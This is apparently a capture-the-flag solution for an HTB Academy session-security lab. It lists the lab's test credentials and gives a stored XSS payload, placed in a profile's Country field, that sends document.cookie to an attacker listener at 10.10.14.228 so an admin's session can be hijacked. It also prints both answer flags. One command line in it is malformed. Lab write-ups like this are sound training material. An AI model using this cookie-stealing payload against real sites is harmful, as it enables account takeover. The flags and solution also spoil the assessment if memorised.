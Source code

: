 # Session Security - Skills Assessment

You are currently participating in a bug bounty program.

* The only URL in scope is `http://minilab.htb.net`
* Attacking end-users through client-side attacks is in scope for this particular bug bounty program.
* Test account credentials:
  * Email: heavycat106
  * Password: rocknrol
* Through dirbusting, you identified the following endpoint `http://minilab.htb.net/submit-solution`

Find a way to hijack an admin's session. Once you do that, answer the two questions below.

**Questions**

Read the flag residing in the admin's public profile. Answer format: \[string]

```bash
#https://ytnuobgub.gitbook.io/redteam/htb-academy-web-modules-for-cbbh/session-security
#Create a log.php script to capture the cookie of user upon logging in to user public profile.
vim log.php
sudo -S 10.10.14.228:8080
#login with Email: heavycat106 Password: rocknrol
#Country input field is vulnerable to XSS injection
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://10.10.14.228:8080/log.php?c=' + document.cookie;"></video>
#Now we can use the API endpoint to make the Administrator visit public profile URL.
http://minilab.htb.net/profile?email=julie.rogers@example.com
#Use that cookie in current session via developer tools after URL decode
[YOU_ARE_A_SESSION_WARRIOR]
```

Go through the PCAP file residing in the admin's public profile and identify the flag. Answer format: FLAG{string}

```
FLAG{SUCCESS_YOU_PWN3D_US_H0PE_YOU_ENJ0YED}
```
